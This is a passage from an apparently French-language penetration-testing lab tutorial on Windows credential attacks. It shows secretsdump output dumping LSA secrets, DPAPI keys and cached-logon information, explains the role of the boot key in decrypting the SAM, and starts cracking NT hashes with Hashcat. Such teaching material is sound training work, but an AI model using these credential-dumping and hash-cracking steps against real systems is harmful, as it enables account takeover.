 ```
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 

```

Ici, nous voyons que secretsdump vide avec succès les hachages SAM locaux et aurait également vidé les informations de connexion au domaine en cache si la cible était jointe au domaine et avait des informations d'identification en cache présentes dans hklm\security. Notez que la première étape que secretsdump exécute cible la clé de démarrage du système avant de procéder au vidage des hachages SAM LOCAL. Il ne peut pas vider ces hachages sans la clé de démarrage car cette clé de démarrage est utilisée pour chiffrer et déchiffrer la base de données SAM, c'est pourquoi il est important pour nous d'avoir des copies des ruches de registre dont nous avons parlé précédemment dans cette section. Remarquez en haut de la sortie secretsdump.py :

```
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

Cela nous indique comment lire la sortie et quels hachages nous pouvons craquer. La plupart des systèmes d'exploitation Windows modernes stockent le mot de passe sous forme de hachage NT. Les systèmes d'exploitation antérieurs à Windows Vista et Windows Server 2008 stockent les mots de passe sous forme de hachage LM, nous ne pouvons donc bénéficier de leur craquage que si notre cible est un ancien système d'exploitation Windows.

Sachant cela, nous pouvons copier les hachages NT associés à chaque compte utilisateur dans un fichier texte et commencer à déchiffrer les mots de passe. Il peut être avantageux de noter chaque utilisateur, afin que nous sachions quel mot de passe est associé à quel compte d'utilisateur.

## Craquer des hachages avec Hashcat

Une fois que nous avons les hachages, nous pouvons commencer à essayer de les déchiffrer en utilisant Hashcat. Nous l'utiliserons pour tenter de déchiffrer les hachages que nous avons rassemblés. Si nous jetons un coup d'œil au site Web Hashcat, nous remarquerons la prise en charge d'un large éventail d'algorithmes de hachage. Dans ce module, nous utilisons Hashcat pour des cas d'utilisation spécifiques. Cela devrait nous aider à développer l'état d'esprit et la compréhension nécessaires pour utiliser Hashcat et à savoir quand nous devons consulter la documentation de Hashcat pour comprendre le mode et les options que nous devons utiliser en fonction des hachages que nous capturons.

Comme mentionné précédemment, nous pouvons remplir un fichier texte avec les hachages NT que nous avons pu vider.

```
dsgsec@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```
